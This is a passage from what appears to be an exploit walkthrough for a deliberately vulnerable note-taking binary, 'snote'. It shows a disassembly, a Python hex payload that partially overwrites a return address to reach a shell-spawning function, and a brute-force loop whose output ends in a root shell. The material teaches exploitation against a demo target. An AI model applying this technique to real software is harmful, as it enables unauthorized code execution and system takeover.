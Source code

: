 while `maintenance` is at `0x...71b9`:

```
 disass maintenance
Dump of assembler code for function maintenance:
   0x000055c90f7571b9 <+0>:	push   %rbp
   0x000055c90f7571ba <+1>:	mov    %rsp,%rbp
   0x000055c90f7571bd <+4>:	mov    $0x0,%edx
   0x000055c90f7571c2 <+9>:	lea    0xe3b(%rip),%rax        # 0x55c90f758004
   0x000055c90f7571c9 <+16>:	mov    %rax,%rsi
   0x000055c90f7571cc <+19>:	lea    0xe34(%rip),%rax        # 0x55c90f758007
   0x000055c90f7571d3 <+26>:	mov    %rax,%rdi
   0x000055c90f7571d6 <+29>:	mov    $0x0,%eax
   0x000055c90f7571db <+34>:	call   0x55c90f7570b0 <execl@plt>
```

Changing our payload to overwrite only the lowest bytes of the return address can still give us a shell by forcing `note` to return execution to `maintenance`! Let's try it out, modifying our script (note the end bytes `b971` corresponding to a possible address for the `maintenance` function):

```python
import sys

payload = "736563725ead6f6f69816fa76f6f736f6f6f6f6f176f6f6f6f6f6f6f636f816fa76f6f736f6f6f6f6f176f6f6f6f6f6f6f636f726fb1826f726f6f8a6f6f6f6f6f6f6f5f6f6f6f6f6008652dcfa65500fa0000fa6f6f6f6fb971"
sys.stdout.buffer.write(bytes.fromhex(payload))
```

After a few iterations:

```
$ python3 exploit.py > poc3
$ while true; do docker run -v `pwd`/poc3:/input -it ethan42/snote:3 /snote subject /input; done
*Time: 761596000:5613263
*Subject: subject by CTO
*Note: secr^�ooi�o�oosooooooooooooco�o�oosoooooooooooocoro��oroo�ooooooo_ooooe-ϦU
...
*Time: 761596000:5613263
*Subject: subject by CTO
*Note: secr^�ooi�o�oosooooooooooooco�o�oosoooooooooooocoro��oroo�ooooooo_ooooe-ϦU
# ls
bin   dev  home   lib	 media	opt   root  sbin   srv	tmp  var
boot  etc  input  lib64  mnt	proc  run   snote  sys	usr
# whoami
root
#
```

We get a shell! Naturally, for a real-world scenario we would have to continue working on our exploit to get it to work on the first try, but this is good enough for a non-weaponized POC! From code to POC within ~5 minutes, not too bad :)